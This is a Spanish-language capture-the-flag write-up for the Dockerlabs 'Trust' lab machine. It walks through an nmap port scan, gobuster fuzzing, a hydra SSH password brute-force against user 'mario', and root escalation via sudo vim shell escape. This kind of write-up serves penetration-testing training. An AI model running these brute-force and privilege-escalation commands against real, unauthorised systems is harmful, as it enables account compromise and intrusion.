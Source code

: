 # Trust

Plataforma: Dockerlabs
OS: Linux
Level: Very Easy
Status: Done
Complete: Yes
EJPT: yes
Created time: 4 de diciembre de 2024 21:12
IP: 172.17.0.2

## Recopilación de información

### **Escaneo de puertos**

Comenzamos con un escaneo para identificar que puertos están abiertos.

---

```bash
sudo nmap -p-  --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allports
```

![image.png](<imagenes/image 6.png>)

### **Enumeración de servicios**

Una vez listado los puertos accesibles, procederemos a realizar la enumeración de servicios para su posterior identificación de vulnerabilidades.

---

- **Identificación de vulnerabilidades**
    - 22
    - 80
    
    Fuzzing :
    
    ```bash
    gobuster dir -u http://172.17.0.2 -w /usr/share/wordlist/dirbuster/directory-list-2.3-medium.txt -x php,txt
    ```
    
    Encontramos ruta : secret.php
    
    ![image.png](<imagenes/image 7.png>)
    

## Explotación

### Explotación 1

Al tener un usuario en la web y el puerto 22 abierto, probamos a bruteforcear el password con hydra:

```bash
hydra -l mario -P /usr/share/wordlist/rockyou.txt ssh://172.17.0.2 -v
```

![image.png](<imagenes/image 8.png>)

Obtenemos password :

Usuario: mario

Password: c*******e

### Escalada de privilegios

Accedemos por ssh con usuario y password. Buscamos binarios SUID

```bash
sudo -l
```

![image.png](<imagenes/image 9.png>)

Buscamos como explotar el binaro en GTFObins: vim

```bash
sudo vim -c ':!/bin/sh'

```

![image.png](<imagenes/image 10.png>)

## Conclusión

Enumeramos la maquina y con un fuzzing simple, encontramos pagina que nos da una pista de un posible usuario. Encontramos la contraseña por fuerza bruta y escalamos privilegios explotando el binario VIM